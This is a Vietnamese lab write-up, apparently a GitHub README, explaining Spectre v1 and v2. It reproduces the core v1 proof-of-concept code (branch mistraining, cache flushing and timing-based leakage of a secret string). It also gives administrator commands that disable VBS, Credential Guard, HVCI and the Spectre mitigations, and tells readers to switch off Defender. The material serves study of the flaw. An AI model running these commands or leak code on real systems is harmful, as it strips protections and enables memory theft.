# Spectre v1 & v2 

Để hiểu được nguyên lý xâu xa nhất của lỗ hỗng **Spectre 2018** này chúng ta cần quan sát hình bên dưới ! Giải thích cách hiểu của tui rằng , để cpu/máy tính chạy 1 lệnh asm , nó cần phân rã ra thành 1 pipeline và thực hiện các việc nhỏ hơn nữa ! Tui sẽ để lại giải thích chi tiết từng công việc nhỏ chi tiết bên dưới hình cho mấy ông đọc nếu có thời gian nhé !!!

**Giờ chúng ta hãy bàn về Spectre** , lỗi xảy ra chỉ với 1 lý do khá hài hước rằng. Cứ mỗi dòng lệnh asm cpu cần thực đúng **6 công việc pipeline trong hình bên dưới** ,  vì phải đợi khá lâu cho mỗi lệnh nên con người tụi mình đã tạo ra 2 thứ tối ưu hóa được gọi là **Dự đoán rẽ nhánh (Branch Prediction)** kết hợp với **Thực thi đầu cơ (Speculative Execution)**. Nghe có vẻ hơi khó hiểu , để cho dễ hình dung , khi 1 dòng asm thứ nhất đang thực hiện pipeline thì cpu đã dùng 2 thứ tối ưu hóa trên ra lệnh cho cpu chạy ngầm dòng asm tiếp theo. Điều này dẫn tới máy tính của chúng ta sẽ có cảm giác nhanh hơn , vì sau khi thực hiện dòng asm đầu tiên thì dòng asm đã được tính sẵn và lưu vào cache ! 

Yeah và chính nó , đã được các nhà nghiên cứu thế hệ trước tìm cách leak các dữ liệu ( trong 2 poc bài này sẽ nhắm vào strings ) từ việc dự đoán và chạy trước của cpu. 

&#x20; 

-   **FI (Fetch Instruction - Nhận lệnh):** CPU đi vào bộ nhớ (Cache hoặc RAM), tìm đến địa chỉ mà thanh ghi `IP` đang trỏ tới để "bốc" đúng mã máy của câu lệnh đó mang về.
    
-   **DI (Decode Instruction - Giải mã lệnh):** CPU đóng vai trò là "người dịch thuật". Nó phân tích chuỗi bit nhị phân vừa nhận được để hiểu rằng: "À, đây là lệnh ADD, và nó cần dùng thanh ghi AX".
    
-   **CO (Calculate Operand Address - Tính địa chỉ toán hạng):** Nếu câu lệnh cần một dữ liệu nằm ngoài bộ nhớ (ví dụ `MOV AX, [BX + DI + 2]`), bộ phận tính toán sẽ nhẩm ngay xem cái địa chỉ `[BX + DI + 2]` thực chất là vị trí số mấy trong RAM.
    
-   **FO (Fetch Operands - Nhận toán hạng):** Sau khi đã chốt được địa chỉ ở bước trên, CPU sẽ cử tín hiệu ra bộ nhớ để "gom" dữ liệu thực sự mang về chuẩn bị cho việc tính toán.
    
-   **EI (Execute Instruction - Thực hiện lệnh):** Lúc này bộ số học và logic (ALU) mới chính thức ra tay. Nó sẽ thực hiện các phép cộng, trừ, nhân, chia, hoặc so sánh tùy theo yêu cầu của lệnh đã được giải mã ở bước DI.
    
-   **WO (Write Operands - Ghi toán hạng):** Công đoạn cuối cùng. Kết quả phép tính ở bước EI sẽ được lưu trở lại vào một thanh ghi đích, hoặc ghi trả lại vào một địa chỉ trong bộ nhớ RAM.

# Setup VMware

Hãy chạy **InSpectre.exe** để check xem trên bản .iso máy ảo của mấy ông có bật lớp bảo vệ nào để ngăn chặn việc thực thi spectre chưa ! Nếu đều hiện đỏ 3 dòng đầu như hình thì oke nhé , còn trên bản iso win10 tui dùng đã hiện xanh ở dòng giữa 

 

&#x20; 

 

&#x20; 

Nếu hiển thị giống tui bị báo đỏ 1 vài chỗ thì cứ tiếp tục làm những thứ bên dưới trước rồi tui sẽ hướng dẫn cách fix ở cuối phần setup này nha ! 

Mấy ông shutdown hẵn máy ảnh r tick như hình , này hình cũ chứ exploit chúng ta sẽ build x86 và chạy thoải mái tẹt ga trên win10 x64 nhé ! Nên mấy ông cứ chỉnh như hình win10x64 / win7x86 đều được  : 

&#x20; 

Sau đó chắc chắn máy ông sẽ không thể chạy được máy ảo , vậy nên lý do nằm ở máy host , tụi mình sẽ setup và tắt 1 loạt thứ kém sang :DD Tất nhiên là để vọc rồi nhưng nếu xong hết thì mấy ông nên bật lại như cũ nhé ! 

 1/  Ấn windows rồi tìm : **Core Isolation** 

&#x20; 

 

2/ CMD **Run as administrator**

    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v LsaCfgFlags /t REG_DWORD /d 0 /f
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v EnableVirtualizationBasedSecurity /t REG_DWORD /d 0 /f
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v RequirePlatformSecurityFeatures /t REG_DWORD /d 0 /f
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v Enabled /t REG_DWORD /d 0 /f
            bcdedit /set hypervisorlaunchtype off
            mountvol X: /s
        copy %WINDIR%\System32\SecConfig.efi X:\EFI\Microsoft\Boot\SecConfig.efi /Y
        bcdedit /create {0cb92610-2970-430b-9e01-35b8014529d2} /d "Debug" /application osloader
        bcdedit /set {0cb92610-2970-430b-9e01-35b8014529d2} path \EFI\Microsoft\Boot\SecConfig.efi
        bcdedit /set {bootmgr} bootsequence {0cb92610-2970-430b-9e01-35b8014529d2}
        bcdedit /set {0cb92610-2970-430b-9e01-35b8014529d2} loadoptions DISABLE-LSA-ISO,DISABLE-VBS
        bcdedit /set {0cb92610-2970-430b-9e01-35b8014529d2} device partition=X:
        mountvol X: /d

Ừ thì tui đã chạy hết đống trên đó :D 

3/ Máy ông reset lại máy , sau đó sẽ hiển thị popup đen , mấy ông nhấn ( F3 + enter ) x2 để đồng ý tắt các lớp bảo vệ sau 2018 ! 

> **Lưu ý nếu win10x64 hiển thị check spectre như tui nói ở trên thì : 
Lúc này mấy ông bật cmd admin trên máy ảo paste full combo này vào y như máy host , rồi restart lại nhé , lưu ý nó có hiện màn hình đen thì mấy ông nhớ nhấn ( F3 + enter ) x 2 lần là được , sau khi mấy ông máy ảo lên mấy ông bấm pause nhé chứ đừng shutdow mắc công chạy lại lệnh r restart lại :DD 

      /* them 2 dong nay giup may ao win10 tat han spectre */    
        reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management" / v FeatureSettingsOverride / t REG_DWORD / d 3 / f
        reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management" / v FeatureSettingsOverrideMask / t REG_DWORD / d 3 / f
        ============================================================
        reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v LsaCfgFlags /t REG_DWORD /d 0 /f
                reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v EnableVirtualizationBasedSecurity /t REG_DWORD /d 0 /f
                reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v RequirePlatformSecurityFeatures /t REG_DWORD /d 0 /f
                reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v Enabled /t REG_DWORD /d 0 /f
                bcdedit /set hypervisorlaunchtype off
                mountvol X: /s
            copy %WINDIR%\System32\SecConfig.efi X:\EFI\Microsoft\Boot\SecConfig.efi /Y
            bcdedit /create {0cb92610-2970-430b-9e01-35b8014529d2} /d "Debug" /application osloader
            bcdedit /set {0cb92610-2970-430b-9e01-35b8014529d2} path \EFI\Microsoft\Boot\SecConfig.efi
            bcdedit /set {bootmgr} bootsequence {0cb92610-2970-430b-9e01-35b8014529d2}
            bcdedit /set {0cb92610-2970-430b-9e01-35b8014529d2} loadoptions DISABLE-LSA-ISO,DISABLE-VBS
            bcdedit /set {0cb92610-2970-430b-9e01-35b8014529d2} device partition=X:
            mountvol X: /d
    
 

# POC Sepctre V1
Trước khi bắt đầu thì PoC này tui copy về để dựng chứ chưa đủ trình để viết từ đầu đâu nhé : https://github.com/Eugnis/spectre-attack/tree/master 

Hi vọng mỗi thứ của mấy ông đã ổn ! Nếu có trục trặc khiến cho PoC không giống với tui thì mấy ông cứ copy paste hết đống setup trên vào AI để nó hỗ trợ thêm nha ! Giờ mấy ông hãy đi tới đường dẫn PoC\Spectre v1\ sẽ có lần lượt : 
- spectreV1_Release.cpp ( code c++ ) 
- spectreV1_Release.exe ( app sau khi build ) 
- spectreV1_Release.pdb ( tệp symbol sinh ra sau khi build -> phục vụ mục đích phân tích RE dễ dàng hơn ) 

Tui không biết mấy ông sẽ lấy .exe chạy lun ( do lười ) hay sẽ mang code về tự build riêng nhưng tui khuyến khích nên mang code về nghiên cứu rồi build sẽ oke hơn ! Nếu làm vậy hãy vào property chỉnh : 
- C++ tắt tối ưu hóa , tắt check spectre và tắt aslr ( nếu muốn nhìn dễ mắt khi debug ) 
- Release mode x86 

Sau khi có .exe hãy ném vào máy ảo ! À khoan đã trong máy ảo Win10x64 hãy tắt Windows defen realtime đi nhé vì lỗi này auto xác định là virus rùi , nếu không tắt sẽ bị OS xóa à nghen ! 

&#x20; 

&#x20; 

## Result Spectre V1

&#x20; 

# Analysis V1

Chuyện quái gì đã xảy ra ? Giờ chúng ta cùng phân tích code nhé ! Như tui đã nói trước đó , chúng ta sẽ lợi dụng chính tính năng mà con người chúng ta tạo ra ! Ở PoC này việc mà ta ép nó thực hiện sẽ chảy theo 1 dòng flow khá dễ hiểu như sau : 

Chạy 1 vòng lặp if else 5 lần -> Luôn true 5 lần và để cpu rẽ nhánh vào câu IF an toàn -> Trước khi cpu đi qua vòng thứ 6 , ta code 1 đoạn độc hại leak strings từ mảng char secret -> Và tiếp tục cho cpu nhảy lần thứ 6 tới đoạn if else này -> Vì CPU đã chạy 5 vòng lặp an toàn và nghĩ rằng lần này cũng sẽ rẽ nhánh vào biến IF true -> CPU vội vàng nhảy vào trước khi đợi kiểm tra đúng sai và vô tình lưu những gì đã thực thi trong khối lệnh độc hại mà ta cố tình để vào ! Và cứ liên tục repeat như vậy tới khi hết độ dài của mảng char ! 

    const char* secret = "The Magic Words are Squeamish Ossifrage.";

Đây chính là đoạn code core chính của đoạn mã exploit này : 

    /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
    training_x = tries % array1_size;
    for (j = 29; j >= 0; j--)
    {
    	_mm_clflush(&array1_size);
    	for (volatile int z = 0; z < 100; z++)
    	{
    	} /* Delay (can also mfence) */
    
    	/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
    	/* Avoid jumps in case those tip off the branch predictor */
    	x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
    	x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
    	x = training_x ^ (x & (malicious_x ^ training_x));
    
    	/* Call the victim! */
    	victim_function(x);
    }

Thú thật tui đã hơi ngáo khi đọc hiểu lại code sample của tác giả đi trước , tuy nhiên sau khi hiểu thì thấy nó là cả 1 nghệ thuật thao túng ảo ma canada :DD 

**Tiếp theo , làm sao để ta biết ở vòng lặp thứ 6 đã leak strings gì ?** 

>Để cho dễ hiểu thì tui có câu chuyện này cho mấy ông tưởng tượng : CPU là quản lý bệnh viện , ở 5 vòng lặp trước hắn ta sai 1 anh nhân viên chạy vào kho mở hộc tủ lấy giấy tờ của bệnh nhân mỗi khi CPU check đúng if else. Nhưng ở vòng thứ 6 , khi CPU chưa kịp tính toán if else , anh nhân viên hài dón đã lập tức chạy vào kho mở hộc tủ chứa chuỗi strings biến **secret**. Ngay lập tức CPU hét to , mày điên à cái if else này sai rồi , quay về mau ! Anh ta quay về , tuy nhiên máy tính khá lười trong việc tự động dọn dẹp , à mà cũng vì thế nên ta mới có lỗi UAF á chứ :DD  Và cứ làm như vậy cho tới khi thỏa mãn đủ độ dài chuỗi **secret** , như đoạn code PoC ~ 16 hộ tủ đã mở ra mà quên đóng lại tương ứng cho 16 ký tự strings. 

> Và ở những đoạn code tiếp theo , chúng ta sẽ dùng **__rdtscp** để đo thời gian kiểm tra , cứ ký tự nào mà thời gian chạy kiểm tra ra kết quả nhanh thì đó chính là chuỗi strings bí mật !!! Hơi khó hiểu nhỉ ? Để dễ hiểu hơn , lúc này ta cố tình tạo ra 1 thám tử , anh ta sẽ đi vào khu hộc tủ , anh ta chỉ cần thấy hộc tủ nào mở ra chưa đóng lại thì lập tức biết ngay đó chính là chuỗi strings bị leak !!! 

    /* Time reads. Order is lightly mixed up to prevent stride prediction */
    for (i = 0; i < 256; i++)
    {
    	mix_i = ((i * 167) + 13) & 255;
    	addr = &array2[mix_i * 512];
    	time1 = __rdtscp(&junk); /* READ TIMER */
    	junk = *addr; /* MEMORY ACCESS TO TIME */
    	time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
    	if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
    		results[mix_i]++; /* cache hit - add +1 to score for this value */

 Và tiếp theo đoạn này khá là hay , ta cần phân loại hạng nhất và hạng nhì , vì đây là đo thời gian cache và OS luôn chạy ngầm / ngắt phần cứng nên sẽ luôn có độ sai , vậy nên tụi mình sẽ ưu tiên lấy hạng nhất ! 

    /* Locate highest & second-highest results results tallies in j/k */
    		j = k = -1;
    		for (i = 0; i < 256; i++)
    		{
    			if (j < 0 || results[i] >= results[j])
    			{
    				k = j;
    				j = i;
    			}
    			else if (k < 0 || results[i] >= results[k])
    			{
    				k = i;
    			}
    		}
    		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
    			break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
    	}
    	results[0] ^= junk; /* use junk so code above won't get optimized out*/
    	value[0] = (uint8_t)j;
    	score[0] = results[j];
    	value[1] = (uint8_t)k;
    	score[1] = results[k];
    }

# POC Sepctre V2

Trước khi bắt đầu thì PoC này tui copy về để dựng chứ chưa đủ trình để viết từ đầu đâu nhé : https://github.com/Anton-Cao/spectrev2-poc/tree/master

À đoạn PoC này dành cho linux cơ và tui đã nhờ AI biến tấu để có thể build và chạy thành công trên Windows , tuy nhiên PoC của tui gặp vấn đề rằng tỷ lệ HIT chỉ khoảng < 30% thui , khá dị và tui cũng cố chỉnh Threathold thêm bớt một số thứ nhưng mọi thứ vẫn không thay đổi TT ( ước gì tui giỏi toán hơn ) 

Vậy nên tụi mình hãy thảo luận về logic nó thay đổi như nào so với V1 nhé ! 

## Analysis V2

&#x20; 

Hãy nhìn lại exploit V1 chúng ta thấy được lệnh rẽ nhánh , tuy nhiên ở V2 sẽ không có lệnh rẽ nhánh nào để lừa mà chúng ta sẽ thực hiện bằng lệnh call , chiếm quyền thực thi tên tiếng anh là hijacking thì phải :DDD 

&#x20; 

Như mấy ông có thể thấy , ở cuối đoạn này khi biên dịch ra mã máy , chúng ta bỏ địa chỉ của con trỏ vào stack [ebp-C] , ngay dưới cuối ta thực hiện call [ebp-C] => Trong đoạn code này thay vì ta đánh lừa CPU 5 vòng lặp như ở trên V1 thì V2 , trước đó ta đánh lừa nó bằng 50 vòng lặp để đánh lừa nó rằng ở [ebp-C] là địa chỉ của mã độc secret nhưng tụi mình không cho nó chạy tới đó trong 50 vòng. Vậy 50 vòng lặp đó tụi mình đã làm gì ? 

Đó là tụi mình thực hiện 1 kỹ thuật có tên là BTB Injection : 

&#x20; 

Toàn bộ đoạn code exploit của V2 cần nhiều phép toán và vòng lặp hơn , khá khó để viết ngắn gọn chỉ với 5 vòng lặp train như ở V1 ! Để giải thích nhanh thì logic bên trong chủ yếu củng cố niềm tin cho CPU rằng , ở lệnh call ebp - C chính là địa chỉ mã độc , tuy nhiên khi tới vòng lặp thứ 51 thì chúng ta hoàn toàn không hề bảo nó nhảy vào nó , tuy nhiên nó đã làm thế :DD 

# Result Spectre V2

&#x20; 

Thật kỳ lạ , tại sao bật lại defen mà lại không bị phát hiện nhỉ ? Mấy ông xem đoạn sau youtube của tui xem , rõ ràng tui đã bật lại defen nhưng không hề bị phát hiện và can thiệp xóa tệp ngay lặp tức ? Chẳng phải rõ ràng tui đã thực hiện thành công V2 sao ? Tuy nó chỉ leak rất ít ( do tui chưa giỏi toán thui nhé ) nhưng chẳng phải việc thao túng rẽ nhánh như vậy nên bị detec ngay lập tức chứ ? Cũng có khả năng đây là đoạn partern mới mà defen chưa cập nhật vào danh sách , tuy nhiên khi check virus total thì đã bị đánh giá ngay là virus r hahaaa 

&#x20; 

# Reference
**Research VN**
- https://genk.vn/lo-hong-spectre-da-duoc-em-nhem-trong-suot-7-thang-nhu-the-nao-20180115084525494.chn

**Research US**
- https://projectzero.google/2018/01/reading-privileged-memory-with-side.html
- https://vatlidak-org.github.io/web/assets/pdf/ys16b-spectre.pdf
- https://www.theregister.com/security/2018/01/04/meltdown-spectre-the-password-theft-bugs-at-the-heart-of-intel-cpus/955520
